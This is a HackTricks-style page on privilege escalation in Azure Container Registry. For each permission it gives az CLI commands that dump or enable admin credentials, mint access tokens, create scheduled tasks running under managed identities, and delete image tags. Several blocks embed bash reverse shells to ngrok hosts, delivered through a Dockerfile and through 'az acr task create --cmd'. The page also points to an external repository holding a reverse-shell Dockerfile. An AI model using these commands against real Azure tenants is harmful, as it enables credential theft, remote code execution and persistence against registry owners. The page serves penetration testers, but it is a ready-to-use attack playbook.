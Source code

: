 # Az - Azure Container Registry Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Container Registry

Fore more information check:

{{#ref}}
../az-services/az-container-registry.md
{{#endref}}

### `Microsoft.ContainerRegistry/registries/listCredentials/action`

This permission allows the user to list the admin credentials of the ACR. This is useful to **get full access** over the registry

```bash
az rest --method POST \
--url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerRegistry/registries/<registry-name>/listCredentials?api-version=2023-11-01-preview"
```

In case the admin credentials aren't enabled, you will also need the permission `Microsoft.ContainerRegistry/registries/write` to enable them with:

```bash
az rest --method PATCH --uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerRegistry/registries/<registry-name>?api-version=2023-11-01-preview" --body '{"properties": {"adminUserEnabled": true}}'
```


### `Microsoft.ContainerRegistry/registries/tokens/write`, `Microsoft.ContainerRegistry/registries/generateCredentials/action`, `Microsoft.ContainerRegistry/registries/generateCredentials/action`

These permissions allow the user to **create a new token** with passwords to access the registry.

To use the `az cli`to generate it as in the following example you will also need the permissions `Microsoft.ContainerRegistry/registries/read`, `Microsoft.ContainerRegistry/registries/scopeMaps/read`, `Microsoft.ContainerRegistry/registries/tokens/operationStatuses/read`, `Microsoft.ContainerRegistry/registries/tokens/read`

```bash
az acr token create \
    --registry <registry-name> \
    --name <token-name> \
    --scope-map _repositories_admin
```


### `Microsoft.ContainerRegistry/registries/listBuildSourceUploadUrl/action`, `Microsoft.ContainerRegistry/registries/scheduleRun/action`, `Microsoft.ContainerRegistry/registries/runs/listLogSasUrl/action`

These permissions allow the user to **build and run an image** in the registry. This can be used to **execute code** in the container.

>[!WARNING]
> However, the image will be executed in a **sandboxed environment** and **without access to the metadata service**. This means that the container will not have access to the **instance metadata** so this isn't really useful to escalate privileges

```bash
# Build
echo 'FROM ubuntu:latest\nRUN bash -c "bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/17585 0>&1"\nCMD ["/bin/bash", "-c", "bash -i >& /dev/tcp//2.tcp.eu.ngrok.io/17585 0>&1"]' > Dockerfile
az acr run --registry 12345TestingRegistry --cmd '$Registry/rev/shell:v1:v1' /dev/null
```


### `Microsoft.ContainerRegistry/registries/tasks/write`

This is the main permission that allows to create and update a task in the registry. This can be used to **execute a code inside a container with a managed identity attached to it** in the container.

This is the example on how to execute a reverseh shell in a container with the **system managed** identity attached to it:

```bash
az acr task create \
    --registry <registry-name> \
    --name reverse-shell-task \
    --image rev/shell:v1 \
    --file ./Dockerfile \
    --context https://github.com/carlospolop/Docker-rev.git \
    --assign-identity \
    --commit-trigger-enabled false \
    --schedule "*/1 * * * *"
```

Another way to get a RCE from a task without using an external repository is to use the `az acr task create` command with the `--cmd` flag. This will allow you to run a command in the container. For example, you can run a reverse shell with the following command:

```bash
az acr task create \
    --registry <registry-name> \
    --name reverse-shell-task-cmd \
    --image rev/shell2:v1 \
    --cmd 'bash -c "bash -i >& /dev/tcp/4.tcp.eu.ngrok.io/15508 0>&1"' \
    --schedule "*/1 * * * *" \
    --context /dev/null \
    --commit-trigger-enabled false \
    --assign-identity
```

> [!TIP]
> Note that to assign the system managed identity you don't need any special permission, although it must have been enabled before in the registry and assigned some permissions for it to be useful.

To assign a **user managed identity also** you would need the permission `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action` to do:

```bash
az acr task create \
    --registry <registry-name> \
    --name reverse-shell-task \
    --image rev/shell:v1 \
    --file ./Dockerfile \
    --context https://github.com/carlospolop/Docker-rev.git \
    --assign-identity \[system\] "/subscriptions/<subscription-id>>/resourcegroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<mi-name>" \
    --commit-trigger-enabled false \
    --schedule "*/1 * * * *"
```

To **update** the repo of an existent task you can do:

```bash
az acr task update \
    --registry <registry-name> \
    --name reverse-shell-task \
    --context https://github.com/your-user/your-repo.git 
```


### `Microsoft.ContainerRegistry/registries/importImage/action`

With this permission it's possible to **import an image to the azure registry**, even without having the image locally. However, note that you **cannot import an image with a tag** that already exists in the registry.

```bash
# Push with az cli
az acr import \
  --name <registry-name> \
  --source mcr.microsoft.com/acr/connected-registry:0.8.0 # Example of a repo to import
```

In order to **untag or delete a specific image tag** from the registry you can use the following command. However, note that you will need a user or token with **enough permissions** to do it:

```bash
az acr repository untag \
    --name <registry-name> \
    --image <image-name>:<tag>

az acr repository delete \
    --name <registry-name> \
    --image <image-name>:<tag>
```



{{#include ../../../banners/hacktricks-training.md}}


